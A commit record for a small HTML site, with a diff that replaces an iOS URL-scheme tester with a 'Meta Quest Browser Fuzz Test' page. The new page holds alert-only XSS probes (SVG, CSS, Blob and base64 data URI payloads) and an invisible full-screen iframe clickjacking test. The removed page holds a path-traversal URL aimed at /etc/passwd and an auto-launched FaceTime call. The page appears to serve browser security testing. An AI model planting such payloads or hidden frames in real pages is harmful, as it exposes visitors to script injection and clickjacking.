

Before and after one commit to flaskwire/chromatic, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 110-903 px from the top of the page. Before the commit the page ends 810 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,59 +1,85 @@
+
 <!DOCTYPE html>
 <html lang="en">
 <head>
   <meta charset="UTF-8">
-  <title>iOS URL Scheme Tester</title>
+  <title>Meta Quest Browser Fuzz Test</title>
   <style>
-    body {
-      font-family: -apple-system, BlinkMacSystemFont, sans-serif;
-      padding: 20px;
-    }
-    a {
-      display: block;
-      margin-bottom: 10px;
-      font-size: 16px;
-      color: #007aff;
-    }
+    body { font-family: sans-serif; background: #fafafa; padding: 2rem; }
+    h1 { color: #333; }
+    .log { font-size: 0.9em; background: #f0f0f0; padding: 1em; border-radius: 5px; white-space: pre-wrap; }
+    section { margin-bottom: 2rem; }
+    iframe { width: 300px; height: 200px; border: 1px solid #ccc; }
   </style>
-  <script>window.open("facetime://test@icloud.com");</script>
 </head>
 <body>
-  <h1>iOS URL Scheme Tester</h1>
+  <h1>Meta Quest Browser Fuzz Testing Page</h1>
 
-  <!-- Core system schemes -->
-  <a href="tel://+14048607545">📞 tel://+14048607545</a>
-  <a href="sms://+14048607545">💬 sms://+14048607545</a>
-  <a href="sms://?&body=HelloWorld">💬 sms:// with body</a>
-  <a href="mailto:test@example.com">✉️ mailto://test@example.com</a>
-  <a href="facetime://1234567890">🎥 facetime://</a>
-  <a href="facetime-audio://1234567890">🎧 facetime-audio://</a>
+  <section>
+    <h2>1. SVG <code>&lt;use&gt;</code> Injection</h2>
+    <svg>
+      <use xlink:href="javascript:alert('SVG Use Triggered')"></use>
+    </svg>
+  </section>
 
-  <!-- Obscure / lesser known -->
-  <a href="shoebox://">🎙️ shoebox:// (Voice Memos)</a>
-  <a href="shoebox://record">🎙️ shoebox://record</a>
-  <a href="com.apple.MobileAddressBook://">👥 com.apple.MobileAddressBook://</a>
-  <a href="prefs:root=General&path=About">⚙️ prefs:// (Deprecated)</a>
-  <a href="app-prefs:root=Bluetooth">📶 app-prefs://Bluetooth</a>
+  <section>
+    <h2>2. CSS JavaScript URL Injection</h2>
+    <style>
+      @keyframes fuzz { from { background-image: url("javascript:alert('CSS triggered')"); } }
+      .test-css { animation: fuzz 1s infinite; }
+    </style>
+    <div class="test-css">CSS Payload Box</div>
+  </section>
 
-  <!-- App Store -->
-  <a href="itms-apps://itunes.apple.com">🛒 itms-apps:// (App Store)</a>
+  <section>
+    <h2>3. WebXR Request</h2>
+    <button onclick="startXR()">Request XR Session</button>
+    <script>
+      function startXR() {
+        if ('xr' in navigator) {
+          navigator.xr.requestSession('immersive-vr')
+            .then(() => alert('XR session started'))
+            .catch(e => console.warn('XR failed:', e));
+        } else {
+          alert('WebXR not supported');
+        }
+      }
+    </script>
+  </section>
 
-  <!-- Custom edge case test -->
-  <a href="tel://%2B14048607545">📞 tel:// with encoded number</a>
-  <a href="tel://@">📞 tel://@ (edge case)</a>
+  <section>
+    <h2>4. Blob URI + Service Worker</h2>
+    <button onclick="triggerBlob()">Trigger Blob Navigation</button>
+    <script>
+      if ('serviceWorker' in navigator) {
+        navigator.serviceWorker.register('sw.js').then(() => {
+          console.log('SW registered');
+        });
+      }
+      function triggerBlob() {
+        const blob = new Blob(["<script>alert('Blob XSS')</script>"], { type: 'text/html' });
+        const url = URL.createObjectURL(blob);
+        window.location = url;
+      }
+    </script>
+  </section>
 
-  <p>Wall</p>
-<a href="shoebox://?id=1234">shoebox://?id=1234</a>
-<a href="shoebox://record?debug=true">shoebox://record?debug=true</a>
-<a href="shoebox://%2F..%2F..%2Fetc/passwd">shoebox://../etc/passwd</a>
+  <section>
+    <h2>5. Data URI XSS</h2>
+    <a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">Data URI XSS Link</a>
+  </section>
 
-  <a href="shoebox://%2E%2E/">shoebox://%2E%2E/</a>
-<a href="shoebox://%F0%9F%92%B0">shoebox://💰</a>
+  <section>
+    <h2>6. UI Redress / Clickjacking Test</h2>
+    <p>This iframe should be hidden over the viewport. Try interacting with the screen to test frame isolation.</p>
+    <iframe src="https://www.meta.com/" style="opacity:0;position:absolute;top:0;left:0;width:100vw;height:100vh;"></iframe>
+  </section>
 
-  <a href="shoebox://wallet">shoebox://wallet</a>
-<a href="shoebox://applepay">shoebox://applepay</a>
-
-  <iframe src="facetime://test@icloud.com" style="display:none"></iframe>
+  <section>
+    <h2>7. Browser Info</h2>
+    <pre class="log" id="ua"></pre>
+    <script>document.getElementById("ua").textContent = navigator.userAgent;</script>
+  </section>
 
 </body>
 </html>
```
